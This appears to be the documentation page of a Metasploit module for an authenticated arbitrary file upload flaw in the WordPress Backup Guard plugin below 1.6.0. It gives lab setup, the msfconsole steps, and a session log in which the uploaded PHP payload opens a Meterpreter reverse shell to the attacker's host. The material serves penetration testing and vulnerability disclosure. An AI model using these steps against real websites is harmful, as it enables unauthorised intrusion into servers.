## Vulnerable Application

### Description

This module allows an attacker with a privileged Wordpress account to launch a reverse shell
due to an arbitrary file upload vulnerability in Wordpress plugin Backup Guard < 1.6.0.
This is due to an incorrect check of the uploaded file extension which should be of SGBP type.
Then, the uploaded payload can be triggered by a call to `/wp-content/uploads/backup-guard/my_payload.php`

### Installation

You can easily install Wordpress with Docker as explained [there]
(https://upcloud.com/community/tutorials/wordpress-with-docker/).
Then, you can download a vulnerable version of Backup Guard plugin from [there]
(https://downloads.wordpress.org/plugin/backup.1.5.8.zip)
and install it on your Wordpress website through the plugin page : Add New > Upload Plugin > Browse...

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use exploit/multi/http/wordpress_plugin_backup_guard_rce`
3. `set USERNAME <admin_username>`
4. `set PASSWORD <admin_password>`
5. `set TARGETURI <base_path_wordpress>` if the base path of the Wordpress website is different from `/`
6. `check` to check if the targeted Wordpress website is vulnerable
7. `run` the module to exploit the vulnerability and start a reverse shell

## Options

### USERNAME

Set the USERNAME of your admin account.

### PASSWORD

Set the PASSWORD of your admin account.

## Scenarios

This module was successfully tested on Debian 10 with Wordpress 5.7.2 and Backup Guard 1.5.8.
See the following output :

```
msf6 > use wordpress_plugin_backup_guard_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(wordpress_plugin_backup_guard_rce) > set username admin
username => admin
msf6 exploit(wordpress_plugin_backup_guard_rce) > set password your_best_password
password => your_best_password
msf6 exploit(wordpress_plugin_backup_guard_rce) > set rhosts 192.168.37.1
rhosts => 192.168.37.1
msf6 exploit(wordpress_plugin_backup_guard_rce) > run

[*] Started reverse TCP handler on 192.168.37.133:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Version 1.5.8 of plugin Backup Guard found !
[+] The target is vulnerable. This version of Backup Guard is vulnerable !
[*] Uploading file 'fsygw.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 192.168.37.1
[*] Meterpreter session 1 opened (192.168.37.133:4444 -> 192.168.37.1:52688) at 2021-07-08 16:44:01 +0200

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : 217a92584fbf
OS          : Linux 217a92584fbf 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64
Meterpreter : php/linux
```
